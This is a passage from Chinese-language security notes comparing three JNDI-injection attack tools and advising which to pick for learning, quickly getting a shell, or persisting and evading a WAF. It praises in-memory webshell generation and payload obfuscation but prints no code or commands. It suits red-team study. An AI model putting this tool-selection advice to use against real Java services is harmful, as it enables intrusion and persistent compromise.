| 亮点 | **内置内存马一键生成**（Filter/Servlet/Agent 型，配合哥斯拉/冰蝎）、payload 加密混淆对抗 WAF、反连检测 |
| 部署 | jar 或 Docker 起 Web 服务，浏览器里点选生成 JNDI 链接 |
| JDK 限制 | 对高版本 JDK 适配最好：无本地依赖时可用 base64/加密类等姿势继续打 |

**优点**：功能最全、界面化零门槛、高版本 JDK 成功率最高、能落内存马做持久化，贴近实战红队。
**局限**：项目较重（比单 jar 大）；部分高级功能随版本更新变动；入门需要理解各 payload 选项的含义。

### 7.4 三工具一览对比

| 对比项 | marshalsec | JNDI-Injection-Exploit | Java Chains |
|---|---|---|---|
| 操作形态 | 命令行 + 多终端手工搭 | 单 jar 命令行一键 | **Web 界面点选** |
| 引用攻击（低版本 JDK） | ✅ | ✅ | ✅ |
| 高版本 JDK（8u191+） | ❌ | ✅（依赖目标本地组件） | ✅（姿势最多） |
| 本地 Gadget | ❌ 需手工 | ✅ 内置 | ✅ 内置 |
| 内存马 | ❌ | ❌ | ✅ 一键生成 |
| WAF 对抗（加密/混淆） | ❌ | 部分 | ✅ |
| 学习价值 | ★★★★★ 看透原理 | ★★★☆ | ★★☆ |
| 实战效率 | ★★☆ | ★★★★ | ★★★★★ |
| 部署成本 | 高（编译+多服务） | 低（单 jar） | 中（起平台） |

### 7.5 选型决策

```
目标是学习 JNDI 攻击原理 / JDK < 8u191
  └─ marshalsec（配合手工写 Exploit.java，本笔记 3.5 全流程）

目标是快速拿 shell / 目标 JDK ≥ 8u191 且 classpath 有 Tomcat 等组件
  └─ JNDI-Injection-Exploit（输出多条链接轮着试）

目标是高版本 JDK / 需要内存马持久化 / 对抗 WAF
  └─ Java Chains
```

一句话记忆：**marshalsec 教你原理，JNDI-Injection-Exploit 帮你省事，Java Chains 替你兜底。**
